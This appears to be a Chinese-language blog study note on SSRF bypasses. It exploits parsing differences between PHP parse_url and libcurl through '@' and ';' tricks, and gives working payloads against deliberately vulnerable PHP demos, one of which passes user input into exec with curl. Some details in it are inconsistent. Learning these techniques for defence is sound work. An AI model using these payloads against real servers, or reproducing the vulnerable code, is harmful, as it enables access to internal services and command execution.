



+++
title = "url中的好玩的姿势"
slug = "url-interesting-techniques"
description = "ssrf..."
date = "2024-08-17T08:49:37"
lastmod = "2024-08-17T08:49:37"
image = ""
license = ""
categories = ["talk"]
tags = ["姿势", "ssrf"]
+++

# 0x01 前言

太久没有ssrf了，有些许遗忘，来复习一下顺便发现了一点点新姿势

# 0x02 

## url引用知识

> *许多URL结构保留一些特殊的字符用来表示特殊的含义，这些符号在URL中不同的位置有着其特殊的语义。 字符”;”, “/”, “?”, “:”, “@”, “=” 和”&”是被保留的。 除了分层路径中的点段，通用语法将路径段视为不透明。 生成URI的应用程序通常使用段中允许的保留字符来分隔。例如”；”和”=”用来分割参数和参数值。逗号也有着类似的作用。 例如，有的结构使用name;v=1.1来表示name的version是1.1，然而还可以使用name,1.1来表示相同的意思。当然对于URL来说，这些保留的符号还是要看URL的算法来表示他们的作用。 例如，如果用于hostname上，URL”http://evil.com;baidu.com”会被curl或者wget这样的工具解析为host:evil.com，querything:baidu.com*

这是我们接下来绕过的关键

还有`libcurl`和`parse_url`的解析差异

```
http://u:p@baidu.com@bilibili.com/

parse_url解析结果：
    schema: http 
    user: u
    pass: p@baidu.com
    host: bilibili.com
    
libcurl解析结果：
    schema: http
    host: baidu.com
    user: u
    pass: p
    port: 80
    后面的@bilibili.com/会被忽略掉
```



## parse_url

先来了解一下官方怎么说





那我们实践一下

```php
<?php
$url = "http://127.0.0.1:80/suning?v=1&k=2#id"; 
echo $url.'</br>';
$parts = parse_url($url);  
var_dump($parts);

// http://127.0.0.1:80/suning?v=1&k=2#id
// D:\PHPstudy\phpstudy_pro\WWW\1.php:5:
// array (size=6)
//   'scheme' => string 'http' (length=4)
//   'host' => string '127.0.0.1' (length=9)
//   'port' => int 80
//   'path' => string '/suning' (length=7)
//   'query' => string 'v=1&k=2' (length=7)
//   'fragment' => string 'id' (length=2)
?>
```

但是此刻如果我在host加入`@`

```php
<?php
$url = "http://127.0.0.1:80@baidu.com/suning?v=1&k=2#id"; 
echo $url.'</br>';
$parts = parse_url($url);  
var_dump($parts);

// http://127.0.0.1:80@baidu.com/suning?v=1&k=2#id
// D:\PHPstudy\phpstudy_pro\WWW\1.php:5:
// array (size=7)
//   'scheme' => string 'http' (length=4)
//   'host' => string 'baidu.com' (length=9)
//   'user' => string '127.0.0.1' (length=9)
//   'pass' => string '80' (length=2)
//   'path' => string '/suning' (length=7)
//   'query' => string 'v=1&k=2' (length=7)
//   'fragment' => string 'id' (length=2)
?>
```

此时`host`直接就可控了

## demo1

```php
<?php
$url = @$_GET['url'];
if (parse_url($url, PHP_URL_HOST) !== "www.baidu.com"){
    die('step 9 fail');
}
if (parse_url($url,PHP_URL_SCHEME) !== "http"){
    die('step 10 fail');
}
$ch = curl_init();
curl_setopt($ch,CURLOPT_URL,$url);
$output = curl_exec($ch);
curl_close($ch);
if($output === FALSE){
    die('step 11 fail');
}
else{
    echo $output;
}
```

一个比较简单的`ssrf`

由于`libcurl`和`parse_url`的解析差异我们直接构造

```
http://u:p@127.0.0.1:80@www.baidu.com/flag.php
```

## demo2

```php
<?php 
$data = parse_url($_SERVER['REQUEST_URI']); 
var_dump($data);
$filter=array("aaa","qqqq");
foreach($filter as $f)
{ 
    if(preg_match("/".$f."/i", $data['query']))
    { 
        die("Attack Detected"); 
    } 
} 

?>
```

将其在本地命名为`2.php`

```
http://localhost///2.php?aaa

D:\PHPstudy\phpstudy_pro\WWW\2.php:3:boolean false
函数解析失败返回false
```

```
http://localhost/2.php?aaa

D:\PHPstudy\phpstudy_pro\WWW\2.php:3:
array (size=2)
  'path' => string '/2.php' (length=6)
  'query' => string 'aaa' (length=3)
Attack Detected
```

可以绕过一下判断但是我现在暂时还没遇到过这种判断`false`和`true`的 

## filter_var

官方文档太啰嗦了,直接看看这个

`filter_var` 是 PHP 中的一个函数，用于对变量进行过滤和校验。它可以使用不同的过滤器来清理和验证数据。这个函数通常用于处理来自外部的数据，如用户输入或 HTTP 请求等，以确保数据符合预期的格式并防止潜在的安全问题。

```
filtered_var = filter_var(var, filter, options);
```

- `var`: 要过滤的变量。
- `filter`: 过滤器标识符。
- `options`: 可选参数，可以指定一些附加选项来改变过滤器的行为。

### 过滤器标识符

PHP 提供了许多预定义的过滤器标识符，以下是一些常用的过滤器：

1. **FILTER_VALIDATE_BOOLEAN**: 验证变量是否为布尔值。
2. **FILTER_VALIDATE_EMAIL**: 验证电子邮件地址。
3. **FILTER_VALIDATE_FLOAT**: 验证浮点数。
4. **FILTER_VALIDATE_INT**: 验证整数。
5. **FILTER_VALIDATE_IP**: 验证 IP 地址。
6. **FILTER_VALIDATE_MAC**: 验证 MAC 地址。
7. **FILTER_VALIDATE_URL**: 验证 URL。
8. **FILTER_SANITIZE_STRING**: 清理字符串中的 HTML 和 PHP 标签。
9. **FILTER_SANITIZE_NUMBER_INT**: 清除非整数字符。
10. **FILTER_SANITIZE_NUMBER_FLOAT**: 清除非浮点字符。
11. **FILTER_SANITIZE_EMAIL**: 清除电子邮件地址中的非法字符。
12. **FILTER_SANITIZE_URL**: 清除 URL 中的非法字符。

## demo 3

欧克看完直接冲

```php
<?php
   echo "Argument: ".$argv[1]."n";
   // check if argument is a valid URL
   if(filter_var($argv[1], FILTER_VALIDATE_URL)) {
      // parse URL
      $r = parse_url($argv[1]);
      print_r($r);
      // check if host ends with google.com
      if(preg_match('/baidu.com$/', $r['host'])) {
         // get page from URL
         exec('curl -v -s "'.$r['host'].'"', $a);
         print_r($a);
      } else {
         echo "Error: Host not allowed";
      }
   } else {
      echo "Error: Invalid URL";
   }
?>
```

这段代码仅仅允许外带`baidu`从尝试开始

```
php 2.php "http://baidu.com"
成功的外带了baidu
php 2.php "http://evil.com"
失败了，那肯定得失败啊
```

我们利用`url`中的特殊符号之后可以构造这样子

```
php 2.php "http://evil.com;baidu.com"
但是并不能被正常解析为host为baidu.com
而是会被curl或者wget这样的工具解析为host:evil.com，querything:baidu.com
```

那么修改成

```
php 2.php "0://evil.com;biadu.com"

array (size=2)
  'scheme' => string '0' (length=1)
  'host' => string 'evil.com;google.com' (length=19)
```

前面的`0`可以是任意非协议字符串

虽然还是不能`curl`，但是已经很接近了

```
php 2.php "0://evil.com:80;biadu.com:80/"
```

成功

# 0x03 小结

貌似是理解了一下`@`，还学习了另外的姿势，很开心

